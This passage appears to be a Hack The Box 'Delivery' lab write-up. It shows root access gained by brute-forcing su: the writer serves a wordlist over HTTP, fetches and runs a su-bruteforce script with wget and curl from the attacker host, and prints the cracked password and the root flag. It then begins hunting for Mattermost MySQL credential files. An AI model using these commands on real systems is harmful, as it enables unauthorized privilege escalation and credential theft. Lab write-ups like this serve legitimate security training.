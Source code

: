 
## Brute force root's password with su

Host the wordlist

```bash
┌──(bravosec㉿fsociety)-[~/htb/Delivery]
└─$ python3 -m http.server 81
```

Use **[su-bruteforce](https://github.com/carlospolop/su-bruteforce)** on target

```bash
maildeliverer@Delivery:/tmp$ wget 10.10.14.46/suBF.sh
maildeliverer@Delivery:/tmp$ chmod +x suBF.sh
maildeliverer@Delivery:/tmp$ curl -s 10.10.14.46:81/passwords_best64.txt|./suBF.sh -u root -w -
```

![](/assets/obsidian/825ce05bde3910083339190dbad58801.png)

Switch to root

```bash
maildeliverer@Delivery:/tmp$ su - root
Password:PleaseSubscribe!21
root@Delivery:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Delivery:~# cat root.txt
f2de7bfa5976cf2e1167bdc68e558eb7
```

# Additional
---

## Privilege escalation from mattermost's configs


### Find mysql credentials

> This config file was not found by linpeas
{: .prompt-tip }

Find what does `mattermost` own

```bash
find / -user mattermost 2>/dev/null| grep -vE '^/proc|^/run|^/sys|^/tmp'
```

```bash
...
/opt/mattermost/config
/opt/mattermost/config/cloud_defaults.json
/opt/mattermost/config/config.json
/opt/mattermost/config/README.md
```

